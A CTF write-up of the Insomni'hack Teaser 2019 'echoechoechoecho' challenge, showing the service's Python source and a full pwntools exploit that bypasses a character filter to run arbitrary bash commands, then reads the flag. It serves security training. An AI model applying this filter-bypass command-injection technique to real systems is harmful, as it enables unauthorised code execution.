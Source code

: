 ```yaml
---
title: echoechoechoecho - Insomni'hack Teaser 2019
date: '2019-01-22 12:02:04'
layout: post
---
```


> Echo echo echo echo, good luck
> 
> Terminal  nc 35.246.181.187 1337

*216 Pts, 18 solved, pwn*



This was a great little challenge that we managed to solve 30 minutes too late and so didnt get the points, but it was  still very satisfying to finally see the flag.



After connecting the the server we are given a prompt `Hi, what would you like to echo today? (make sure to try 'thisfile')` and if we send `thisfile` we are given the source to the challenge:



```python
#!/usr/bin/env python3

from os import close
from random import choice
import re
from signal import alarm
from subprocess import check_output
from termcolor import colored

alarm(10)

colors = ["red","blue","green","yellow","magenta","cyan","white"]
# thanks http://patorjk.com/software/taag/#p=display&h=0&f=Crazy&t=echo
banner = """
                            _..._                 .-'''-.
                         .-'_..._''.             '   _    \\
       __.....__       .' .'      '.\  .       /   /` '.   \\
   .-''         '.    / .'           .'|      .   |     \  '
  /     .-''"'-.  `. . '            <  |      |   '      |  '
 /     /________\   \| |             | |      \    \     / /
 |                  || |             | | .'''-.`.   ` ..' /
 \    .-------------'. '             | |/.'''. \  '-...-'`
  \    '-.____...---. \ '.          .|  /    | |
   `.             .'   '. `._____.-'/| |     | |
     `''-...... -'       `-.______ / | |     | |
                                  `  | '.    | '.
                                     '---'   '---'
"""

def bye(s=""):
    print(s)
    print("bye")
    exit()

def check_input(payload):
    if payload == 'thisfile':
        bye(open("/bin/shell").read())

    if not all(ord(c) < 128 for c in payload):
        bye("ERROR ascii only pls")

    if re.search(r'[^();+$\\= \']', payload.replace("echo", "")):
        bye("ERROR invalid characters")

    # real echolords probably wont need more special characters than this
    if payload.count("+") > 1 or \
            payload.count("'") > 1 or \
            payload.count(")") > 1 or \
            payload.count("(") > 1 or \
            payload.count("=") > 2 or \
            payload.count(";") > 3 or \
            payload.count(" ") > 30:
        bye("ERROR Too many special chars.")

    return payload


# print(colored(banner, choice(colors)))
print("Hi, what would you like to echo today? (make sure to try 'thisfile')")
payload = check_input(input())


print("And how often would you like me to echo that?")
count = max(min(int(input()), 10), 0)

payload += "|bash"*count

close(0)
result = check_output(payload, shell=True, executable="/bin/bash")
bye(result.decode())
```



So we the basic idea is the we can run `payload`, `payload | bash`, `payload | bash | bash`etc. The catch is that we can only using the characters  `^();+$\\= \'`and the word `echo`. There is also a limit on the number of times each is used, with the exception of `\` and `$` which can be used as many times as we want.



A bit of playing around shows that if our payload is `echo $$` then the pid is always `8`, and it we run it multiple times but escape the dollar signs we can get a few more pids as they increase:

```textile
Hi, what would you like to echo today? (make sure to try 'thisfile')
echo echo echo $$ \$\$ \\$\\$
And how often would you like me to echo that?
2
8 10 11
```

After a bit more thinking and searching we found that you can use `echo` to create any character from the octal code, eg `echo $'\052'` is `*`. The problem is that we can only use a single `'`and we need two of them. We can work around this by assigning it to a variable, then using that instead:

```textile
Hi, what would you like to echo today? (make sure to try 'thisfile')
echoecho=\'; echo $echoecho $$  $echoecho
And how often would you like me to echo that?
0
' 8 '
```

The last trick to get the remaining numbers we need is that if we add a `$` before echoing a number, it will remove the first digit. This lets us get the numbers 0-7 using the pids 10-17: `echo $10$15$12` is `052`. 



So now we have all the parts we need to build up an arbitrary string to execute commands, we just need to escape everything with the correct number of backslashes. After quite a long time I finally had a function to encode strings and could start running commands.



Listing the filesystem shows that the is `flag` (unreadable) and `get_flag`, but running `get_flag` results in:

```textile
Please solve this little captcha:
2259669573 + 2946304989 + 1862097959 + 4143633715 + 2756660880
13968367116 != 0 :(

bye
```

At this stage there was only a few minutes of the ctf left and it was over before we worked out how to solve the captcha :(



After a bit more discussion @tempestuous from my team OpenToAll provided the following snippet to run and solve the captcha, which (after fixing my script a bit) got us the flag:

```bash
bash -c 'echo $(($(grep + /tmp/a)))'|/g*>/tmp/a;cat /tmp/a
```



`INS{echo_echoecho_echo__echoech0echo_echoechoechoecho_bashbashbashbash}`



final.py:

```python
#!/usr/bin/env python2
from pwn import *

# quote variable
Q1="echoecho";

# escape sequences
V0 = "\\"*2
V1 = "\\"*(2 + 4)
V2 = "\\"*(2 + 4 + 8)
V3 = "\\"*(2 + 4 + 8 + 15)
V4 = "\\"*(2 + 4 + 8 + 16 + 32)
V5 = "\\"*(2 + 4 + 8 + 16 + 32 + 64)
V6 = "\\"*(2 + 4 + 8 + 16 + 32 + 64 + 128)
V7 = "\\"*(2 + 4 + 8 + 16 + 32 + 64 + 128 + 256)
V8 = "\\"*(2 + 4 + 8 + 16 + 32 + 64 + 128 + 256 + 512)

# digits
C0 = "{}$\\$\\$".format(V0)
C1 = "{}${}${}$".format(V1, V0, V0)
C2 = "{}${}${}$".format(V2, V1, V1)
C3 = "{}${}${}$".format(V3, V2, V2)
C4 = "{}${}${}$".format(V4, V3, V3)
C5 = "{}${}${}$".format(V5, V4, V4)
C6 = "{}${}${}$".format(V6, V5, V5)
C7 = "{}${}${}$".format(V7, V6, V6)

C13 = "{}${}$".format(V2, V2)
C14 = "{}${}$".format(V3, V3)
C15 = "{}${}$".format(V4, V4)
C16 = "{}${}$".format(V5, V5)
C17 = "{}${}$".format(V6, V6)

def get_char(c):
	if c == " ":
		return c

	nums = oct(ord(c))
	if len(nums) > 3:
		nums = nums[1:]
	if nums[0] == "1":
		raw = "{V8}{V7}" + "{C%c%c}{C%c}"%(nums[0],nums[1],nums[2]) 
	else:
		raw = "{V8}{V7}" + "{C%c}{C%c}{C%c}"%(nums[0],nums[1],nums[2])
	base = raw.format(V7=V7, V8=V8, 
			C0=C0, C1=C1, C2=C2, C3=C3, C4=C4, C5=C5, C6=C6, C7=C7,
			C13=C13, C14=C14, C15=C15, C16=C16, C17=C17).strip()
	return base

def get_string(s):
	p = "{V7}${V8}${Q1}".format(Q1=Q1, V7=V7, V8=V8)  # $'
	for c in s:
		p += get_char(c)
	return p + "{V8}${Q1}".format(Q1=Q1, V8=V8).strip() # '

cmd = """bash -c 'echo $(($(grep + /tmp/a)))'|/g*>/tmp/a;cat /tmp/a"""

payload = """
{}=\\'; echo echo echo echo echo echo echo echo echo echo {}
""".format(Q1, get_string("bash") + " " + get_string("-c") + " " + get_string(cmd))

payload = payload.strip()
times = 10

if len(sys.argv) > 1:
	p = remote("35.246.181.187", 1337)
else:
	p = process("docker run --rm -i -v `pwd`:/ctf -v `pwd`/flag:/flag -v `pwd`/shell:/bin/shell -v `pwd`/get_flag:/get_flag python:3-slim bash -c 'date; python3 /bin/shell'", shell=True)

p.sendlineafter("'thisfile')", payload)
p.sendlineafter("that?", str(times))
p.interactive()

# INS{echo_echoecho_echo__echoech0echo_echoechoechoecho_bashbashbashbash}
```
